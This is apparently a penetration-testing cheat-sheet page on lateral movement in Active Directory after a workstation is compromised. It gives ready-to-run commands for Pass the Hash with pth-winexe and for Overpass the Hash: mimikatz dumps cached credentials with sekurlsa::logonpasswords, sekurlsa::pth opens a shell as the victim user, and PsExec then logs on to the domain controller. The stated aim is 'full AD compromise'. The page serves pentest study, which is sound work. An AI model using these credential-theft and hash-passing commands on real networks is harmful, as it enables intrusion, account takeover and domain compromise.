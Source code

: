 # Lateral Movement

>Since we have located high-valuable targets logged on some workstations/servers and we have obtained password hashes and tickets from current machine, we can move laterally to try compromise these high value targets that could lead to full AD compromise.

## Pass the Hash

> Allows us to authenticate to a remote system or service using the NTLM hash of a user (will not work for Kerberos authentication).

 ```bash
#From our kali machine:
pth-winexe -U $USER%$NTLMHASH //$IPADDRESS cmd
#Change $IPADDRESS to the remote machine.
 ```

**Note:** This method only works for AD domain accounts and the built-in local administrator account.

_____

## Overpass the Hash

Thanks to this method we can abuse the NTLM hash of a user to gain a full kerberos TGT or TGS which grants us access to another machine or service as that user.

Imagine we have compromised a workstation and there are cached NTLM hashes of other users. The first step is to grab the NTLM hash of a user using mimikatz:

```bash
sekurlsa::logonpasswords
```

Now we have to use the following mimikatz tool open a powershell prompt as the context of this user:

```bash
sekurlsa::pth /user:$USERNAME /domain:$DOMAINNAME /ntlm:$NTLMHASH /run:PowerShell.exe
```

Next, if there are no Kerberos tickets cached, we have to generate one:

```bash
#List current tickets:
klist

#Generate a TGT by authenticating somewhere:
net use \\$DCHOSTNAME
```

Now we have a full Kerberos TGT which allows us to use any tools that rely on Kerberos authentication:. For example, login as this user on the domain controller:

```bash
.\PsExec \\$DCHOSTNAME cmd.exe
```
